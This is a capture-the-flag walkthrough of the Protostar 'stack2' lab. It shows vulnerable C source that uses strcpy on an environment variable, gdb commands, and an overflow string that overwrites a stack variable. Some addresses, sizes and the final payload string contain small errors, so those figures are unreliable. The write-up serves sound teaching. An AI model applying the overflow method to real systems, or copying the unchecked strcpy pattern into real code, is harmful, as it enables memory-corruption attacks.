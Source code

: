 ```yaml
---
title: "Protostar stack2 walkthrough"
date: 2020-05-21
tags: [ctf, protostar, stack2, walkthrough]
header:
  image: "/images/protostar/protostar.png"
---
```

  
## Protostar exercises - [stack2](https://exploit-exercises.lains.space/protostar/stack2/)

#### About
Stack2 looks at environment variables, and how they can be set.

This level is at /opt/protostar/bin/stack2

#### Source code:
```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

#### Procedure:

Similar to the previous one, the value of 'modified' variable needs to be changed to a specific value. Again, there is a `strcpy()` being used, but now its copying an environment variable GREENIE. 

We need to create a GREENIE environment variable and overwrite 'modified' variable with it.

###### Vulnerability:

`strcpy` is used to copy a string. if the destination string of a `strcpy()` is not large enough, then buffer overflow happens. We can use this to overflow the 64 bit buffer and write into the memory address where 'modified' is stored.

###### Disassembly:

![disassembly]({{site.url}}{{site.baseurl}}/images/protostar/stack2/disassemble.png)

We can see that 'modified' is assigned an address $esp+0x58. Lets setup breakpoints before and after `strcpy()` to see which registers are changing

Lets create GREENIE variable. `export GREENIE=AAAAAAAA`  and run the program.

```
break *0x080484df
break *0x080484e4
define hook-stop
>info registers
>x/24wx $esp
>x/2i $eip
>end
```
![firstrun]({{site.url}}{{site.baseurl}}/images/protostar/stack2/firstrun.png)

We can see that registers 0xbffff748 and 0xbffff74c are written with 0x41's.
Also 'modified' is stored at 0xbffff788 ($esp+0x58) and has value of 0x00000000

To overwrite it, we need to fill the addresses from 0xbffff748 to 0xbffff788. That is 40+4 words or 68 bytes.

Lets change the GREENIE value `export GREENIE=AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHHHIIII`

![secondrun]({{site.url}}{{site.baseurl}}/images/protostar/stack2/second.png)

Now, we can see that $esp+0x58 (0xbffff748) is changed to 0x49494949. Lets change it to the desired value 0x0d0a0d0a, which is '\r\n\r\n'

Since the machine formats little endian, the required string is AAAAAAAABBBBBBBBCCCCCCCCDDDDDDDDEEEEEEEEFFFFFFFFGGGGGGGGHHHHHHH\n\r\n\r

![done]({{site.url}}{{site.baseurl}}/images/protostar/stack2/done.png)

Now, the varialbe is changed to the desired value and program executes without error.
